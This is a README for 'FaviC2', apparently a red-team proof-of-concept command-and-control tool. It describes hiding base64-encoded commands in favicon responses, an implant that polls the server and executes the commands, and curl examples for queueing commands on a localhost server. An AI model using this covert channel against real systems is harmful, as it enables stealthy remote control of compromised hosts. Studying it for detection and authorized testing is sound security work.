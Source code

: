 # FaviC2 - A Favicon Command & Control (C2) Proof of Concept

**FaviC2** is a proof-of-concept Command & Control framework that embeds commands in a website’s `favicon.ico` file. It demonstrates how attackers or authorized red teams might leverage seemingly benign icon requests to stealthily send commands to a compromised host and receive execution results. **Use this only in authorized security tests or lab environments.**

---

## Table of Contents

- [Features](#features)  
- [How It Works](#how-it-works)  
- [Project Structure](#project-structure)  
- [Installation and Setup](#installation-and-setup)  
- [Usage](#usage)  
  - [Starting the C2 Server](#starting-the-c2-server)  
  - [Running the Implant](#running-the-implant)  
  - [Queueing Commands](#queueing-commands)  
  - [Viewing Results](#viewing-results)  
- [Demonstration Flow](#demonstration-flow)  
- [Disclaimer](#disclaimer)  
- [License](#license)  

---

## Features

1. **Covert Channel via Favicon**  
   - Commands are hidden in the server’s response to `/favicon.ico`, either appended to the icon file or embedded in a custom header.

2. **SQLite Database Storage**  
   - Simple, lightweight database for tracking implants, queued commands, and execution results.

3. **Lightweight Implant (Agent)**  
   - Polls the server at configurable intervals, executes received commands, and reports back.

4. **Minimal Dependencies**  
   - Server side uses [Flask](https://flask.palletsprojects.com/).  
   - Implant side uses [requests](https://pypi.org/project/requests/).

---

## How It Works

1. **Implant Registration**  
   - The implant calls `/favicon.ico?i=<implant_id>` to register/update itself in the database.

2. **Command Injection**  
   - If a command is queued for that implant, the server base64-encodes it and inserts it into the `.ico` response or an HTTP header.

3. **Command Execution**  
   - The implant decodes the command and executes it locally (e.g., via `subprocess` in Python).

4. **Result Reporting**  
   - The implant sends command output back to `/report`, and the server stores it in the SQLite database.

5. **Operator Inspection**  
   - The operator (red team) can review saved results by hitting `/results` or by building a custom interface.

---

## Project Structure

```bash
FaviC2/
├── c2_server/
│   ├── db.py             # SQLite DB creation and query logic
│   ├── server.py         # Flask server handling C2 logic
│   └── static/
│       └── base_favicon.ico  # Base icon file to be served/modified
└── implant/
    └── implant.py        # The implant script that polls for commands and reports results
```

## Installation and Setup

### 1. Clone the Repository

```bash
git clone https://github.com/<YourUsername>/FaviC2.git
cd FaviC2
```

### 2. Server Environment Setup

```bash
cd c2_server
python3 -m venv venv
source venv/bin/activate       # On Linux/Mac
# On Windows: venv\Scripts\activate

pip install flask
```

### 3. Implant Environment Setup

```bash
cd ../implant
python3 -m venv venv
source venv/bin/activate
pip install requests
```

### 4. Base Favicon

In `c2_server/static/`, ensure you have a valid `base_favicon.ico`. You can download or create one using any icon generator.

---

## Usage

### Starting the C2 Server

From `c2_server`, run:

```bash
cd c2_server
source venv/bin/activate  # Activate your virtual environment if not already
python server.py
```

By default, this starts the Flask server on `http://127.0.0.1:5000`. You can change ports and settings in `server.py`.

### Running the Implant

In another terminal, navigate to `implant`:

```bash
cd implant
source venv/bin/activate
python implant.py
```

The implant will poll `http://localhost:5000/favicon.ico?i=test_implant` every 10 seconds (configurable in `implant.py`).

### Queueing Commands

Use `curl`, Postman, or similar to queue a command:

```bash
curl -X POST -H "Content-Type: application/json" \
     -d '{"implant_id":"test_implant","command":"whoami"}' \
     http://127.0.0.1:5000/queue_command
```

When the implant polls again, it will receive and execute `whoami`, then send the results back.

### Viewing Results

Retrieve stored results with:

```bash
curl http://127.0.0.1:5000/results
```

You’ll see a JSON response containing implant IDs, commands, outputs, and timestamps.

---

## Demonstration Flow

1. **Start the C2 Server**

    ```bash
    python server.py
    ```

2. **Run the Implant**

    ```bash
    python implant.py
    ```

3. **Queue a Command**

    ```bash
    curl -X POST -H "Content-Type: application/json" \
         -d '{"implant_id":"test_implant","command":"whoami"}' \
         http://127.0.0.1:5000/queue_command
    ```

4. **Check Implant**

    - The implant logs the fetched command and executes it.
    - Output is sent back to the server.

5. **View Results**

    - Access `http://127.0.0.1:5000/results` to confirm the command’s output.

---

## Disclaimer

This tool is intended for authorized security testing and educational research purposes only. You are solely responsible for complying with all relevant laws. Do not use this software in unauthorized ways. The author(s) assume no liability for any misuse or damage.

---

## License

**MIT License**

Feel free to adapt or enhance the code for your use cases within the bounds of the license.
